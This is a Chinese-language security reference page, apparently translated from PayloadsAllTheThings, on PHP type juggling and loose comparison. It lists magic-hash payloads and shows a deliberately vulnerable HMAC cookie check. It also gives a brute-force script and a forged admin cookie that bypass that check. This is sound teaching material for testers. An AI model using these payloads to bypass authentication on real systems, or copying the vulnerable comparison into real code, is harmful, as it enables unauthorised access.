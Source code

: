 # 类型转换

> PHP 是一种松散类型语言，这意味着它会尝试预测程序员的意图，并在似乎必要时自动将变量转换为不同的类型。例如，仅包含数字的字符串可以被视为整数或浮点数。然而，这种自动转换（或类型转换）可能会导致意外结果，特别是在使用 `==` 运算符比较变量时，该运算符仅检查值是否相等（松散比较），而不是检查类型和值是否相等（严格比较）。

## 概述

* [松散比较](#松散比较)
    * [真陈述](#真陈述)
    * [NULL 陈述](#null-陈述)
    * [松散比较](#松散比较)
* [魔法哈希](#魔法哈希)
* [方法论](#方法论)
* [实验室](#实验室)
* [参考](#参考)

## 松散比较

> 当在攻击者可以控制其中一个被比较的变量的区域中使用松散比较 (`==` 或 `!=`) 而不是严格比较 (`===` 或 `!==`) 时，就会出现 PHP 类型转换漏洞。此漏洞可能导致应用程序返回未预期的真或假答案，并可能引发严重的授权和/或身份验证错误。

* **松散** 比较：使用 `==` 或 `!=`：两个变量具有“相同的值”。
* **严格** 比较：使用 `===` 或 `!==`：两个变量具有“相同的类型和相同的值”。

### 真陈述

| 语句                             | 输出 |
| -------------------------------- |:---------------:|
| `'0010e2'   == '1e3'`            | true |
| `'0xABCdef' == ' 0xABCdef'`      | true (PHP 5.0) / false (PHP 7.0) |
| `'0xABCdef' == '     0xABCdef'`  | true (PHP 5.0) / false (PHP 7.0) |
| `'0x01'     == 1`                | true (PHP 5.0) / false (PHP 7.0) |
| `'0x1234Ab' == '1193131'`        | true (PHP 5.0) / false (PHP 7.0) |
| `'123'  == 123`                  | true |
| `'123a' == 123`                  | true |
| `'abc'  == 0`                    | true |
| `'' == 0 == false == NULL`       | true |
| `'' == 0`                        | true |
| `0  == false`                   | true |
| `false == NULL`                  | true |
| `NULL == ''`                     | true |

> PHP 8 将不再尝试将字符串转换为数字，这得益于《更安全的字符串到数字比较》提案，这意味着以“0e”开头的哈希冲突终于成为过去！《内部函数的一致类型错误》提案将防止诸如 `0 == strcmp($_GET['username'], $password)` 绕过的情况，因为 `strcmp` 不再返回 `null` 并发出警告，而是抛出适当的异常。

![松散类型比较](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

松散类型比较在许多语言中都会发生：

* [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
* [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
* [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
* [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
* [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
* [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
* [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
* [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)

### NULL 陈述

| 函数 | 语句                  | 输出 |
| ------ | -------------------- |:---------------:|
| sha1   | `var_dump(sha1([]));` | NULL |
| md5    | `var_dump(md5([]));`  | NULL |

## 魔法哈希

> 魔法哈希是由于 PHP 的类型转换中的一个特性引起的，当字符串哈希与整数进行比较时。如果一个字符串哈希以“0e”开头并且后面只包含数字，PHP 会将其解释为科学计数法，并在比较操作中将哈希视为浮点数。

| 哈希 | “魔法” 数字 / 字符串    | 魔法哈希                                    | 发现者 / 描述      |
| ---- | ------------------------ |:-------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                 | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | IiF+hTai                 | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                  | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905             | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017              | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1  | 10932435112              | 0e07766915004133176347055865026311692244      | 独立发现者：Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083) |

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## 方法论

以下代码中的漏洞在于使用松散比较 (`!=`) 来验证 `$cookie['hmac']` 是否与计算出的 `$hash` 相匹配。

```php
function validate_cookie($cookie,$key){
 $hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
 if($cookie['hmac'] != $hash){ // 松散比较
  return false;
  
 }
 else{
  echo "Well done";
 }
}
```

在这种情况下，如果攻击者可以控制 `$cookie['hmac']` 的值并将其设置为类似“0”的字符串，并且以某种方式操纵 `hash_hmac` 函数使其返回以“0e”开头并仅由数字组成的哈希（这会被解释为零），那么条件 `$cookie['hmac'] != $hash` 将评估为 false，从而绕过 HMAC 检查。

我们对 cookie 有三个可控元素：

* `$username` - 你要针对的目标用户名，可能是“admin”
* `$expiration` - UNIX 时间戳，必须是未来的
* `$hmac` - 提供的哈希，“0”

利用阶段如下：

* 准备恶意 cookie：攻击者准备一个 cookie，其中 `$username` 设置为目标用户（例如，“admin”），`$expiration` 设置为未来的一个 UNIX 时间戳，`$hmac` 设置为“0”。
* 强力破解 `$expiration` 值：然后攻击者强力破解不同的 `$expiration` 值，直到 `hash_hmac` 函数生成一个以“0e”开头并仅由数字组成的哈希。这是一个计算密集的过程，可能根据系统配置不可行。但如果成功，此步骤将生成一个“零似”的哈希。

```php
// docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
for($i=1424869663; $i < 1835970773; $i++ ){
 $out = hash_hmac('md5', 'admin|'.$i, '');
 if(str_starts_with($out, '0e' )){
  if($out == 0){
   echo "$i - ".$out;
   break;
  }
 }
}
?>
```

* 使用强力破解的值更新 cookie 数据：`1539805986 - 0e772967136366835494939987377058`

```php
$cookie = [
 'username' => 'admin',
 'expiration' => 1539805986,
 'hmac' => '0'
];
```

* 在这种情况下，我们假设密钥为空字符串：`$key = '';`

## 实验室

* [Root Me - PHP - 类型转换](https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling)
* [Root Me - PHP - 松散比较](https://www.root-me.org/en/Challenges/Web-Server/PHP-Loose-Comparison)

## 参考

* [(超级) 魔法哈希 - myst404 (@myst404_) - 2019年10月7日](https://offsec.almond.consulting/super-magic-hash.html)
* [魔法哈希 - Robert Hansen - 2015年5月11日](http://web.archive.org/web/20160722013412/https://www.whitehatsec.com/blog/magic-hashes/)
* [魔法哈希 – PHP 哈希“冲突” - Michal Špaček (@spaze) - 2015年5月6日](https://github.com/spaze/hashes)
* [PHP 魔术技巧：类型转换 - Chris Smith (@chrismsnz) - 2020年8月18日](http://web.archive.org/web/20200818131633/https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
* [编写针对奇异漏洞类别的漏洞利用：PHP 类型转换 - Tyler Borland (TurboBorland) - 2013年8月17日](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)